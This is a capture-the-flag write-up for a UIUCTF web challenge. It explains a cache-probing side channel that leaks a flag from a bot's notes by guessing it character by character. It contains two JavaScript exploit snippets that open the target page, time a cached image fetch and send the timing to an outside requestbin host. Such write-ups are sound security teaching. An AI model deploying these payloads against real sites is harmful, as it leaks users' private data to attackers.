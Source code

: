 We learned a lot from our analysis !! 

In bot.js, flags are stored in notes. Also we know the flag format. ( uiuctf{[a-z0-9_]} ). That is, we can brute force using `uiuctf{`. This is where 'Cache Probing' is used. I know that when I search for a value contained in a note, a green image appears.

![image](https://user-images.githubusercontent.com/49112423/128535171-7f89b779-f375-4854-a2ea-4267d2021c68.png)

Then, if we retrieve the value contained in the note, the browser loads a green image. At this time, since it is loaded for the first time, it will be cached on disk. At this time, if we retrieve the green image one more time, the image can be loaded much faster than the first time since the cache is already saved.

```html
<script>
    const image = "https://sigpwny.com/uiuctf/y.png"
    const requestbin = "//79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/"
    window.open(`https://chal.yana.wtf/#a`);

    setTimeout(() => {
        const start = new Date();
        fetch(image).then(d => {
            const end = new Date();
            location.replace(requestbin + "?time=" + (end-start));
        });
    }, 1000)
</script>
```
First of all, this is the exploit code that sends a query that is not saved in the memo. In the above situation, the browser will load a red image. Then the green image will take a lot of time because it is the first to load.

Let's check it out.

![image](https://user-images.githubusercontent.com/49112423/128592771-367017d1-dc6a-4fe6-b998-74ff67270a46.png)

Nice, When sending a query that does not contain it, it took about 43s?43ms.

```html
<script>
    const image = "https://sigpwny.com/uiuctf/y.png"
    const requestbin = "//79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/"
    window.open(`https://chal.yana.wtf/#uiu`);

    setTimeout(() => {
        const start = new Date();
        fetch(image).then(d => {
            const end = new Date();
            location.replace(requestbin + "?time=" + (end-start));
        });
    }, 1000)
</script>
```
Now, let's check the loading time when sending the query included in the note.

